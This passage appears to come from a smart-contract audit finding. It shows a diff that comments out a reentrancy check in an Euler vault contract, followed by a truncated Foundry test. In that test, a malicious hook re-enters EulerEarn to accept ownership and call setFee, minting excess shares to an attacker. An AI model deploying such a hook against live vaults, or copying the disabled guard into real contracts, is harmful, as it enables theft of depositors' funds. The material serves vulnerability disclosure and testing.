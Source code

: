 ```diff
+        //     // safe to consume the trailing data as we know we are inside useView because msg.sender == address(this)
+        //     if (msg.sender != hookTarget && !(msg.sender == address(this) && ProxyUtils.useViewCaller() == hookTarget))
+        //     {
+        //         revert E_Reentrancy();
+        //     }
+        // }
         _;
     }
 
@@ -150,3 +150,4 @@ abstract contract Base is EVCClient, Cache {
         );
     }
 }
+
```

Second, add the following file to the test suite:

```solidity
// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.26;

import {stdError} from "../lib/forge-std/src/StdError.sol";

import {SafeCast} from "../lib/openzeppelin-contracts/contracts/utils/math/SafeCast.sol";
import "./helpers/IntegrationTest.sol";
import {IHookTarget} from "../lib/euler-vault-kit/src/interfaces/IHookTarget.sol";

contract MalHook is IHookTarget {
    IEulerEarn eulerEarn;

    constructor(address _eulerEarn) {
        eulerEarn = IEulerEarn(_eulerEarn);
    }
    function isHookTarget() external view returns (bytes4) {
        return bytes4(0x87439e04); 
    }

    function withdraw(uint256, address, address) external {
        // hook accepts ownership for eulerEarn
        eulerEarn.acceptOwnership();

        // hook calls `setFee` on eulerEarn to trigger interest accrual and mint excess shares to the attacker
        eulerEarn.setFee(0);
    }
}

contract HookReentrancyTest is IntegrationTest {
    using MathLib for uint256;

    function setUp() public override {
        super.setUp();

        _setCap(allMarkets[0], CAP);
    }

    function test_jcn_steal_assets() public {
        // --- Set Up --- //

        // Set 0 timelock on EulerEarn deployment
        IEulerEarn eulerEarn = eeFactory.createEulerEarn(
```